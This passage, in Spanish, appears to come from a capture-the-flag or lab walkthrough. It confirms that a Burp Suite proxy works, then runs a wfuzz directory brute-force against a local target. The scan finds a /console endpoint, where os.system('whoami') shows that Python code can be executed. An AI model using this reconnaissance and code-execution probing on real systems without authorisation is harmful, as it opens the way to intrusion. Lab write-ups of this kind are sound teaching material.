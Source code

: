 
![bur-add-ort-80-2](/assets/images/burp-add-port-80-2.png) 
Ya no nos pone el mensaje de error 
```bash
 Conexion reusada 
```
, quiere decir que el server proxy que hemos creado con
BurpSuite funciona. Ya podemos aplicar fuzzing.

### WFUZZ {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ
```

Encontramos el recurse 
```bash
 /console 
```


### Consola Interactiva {-}

Estamos en frente de una consola interactiva donde se puede ejecutar code en python

```python
import os

os.system('whoami')
#Output
0
```
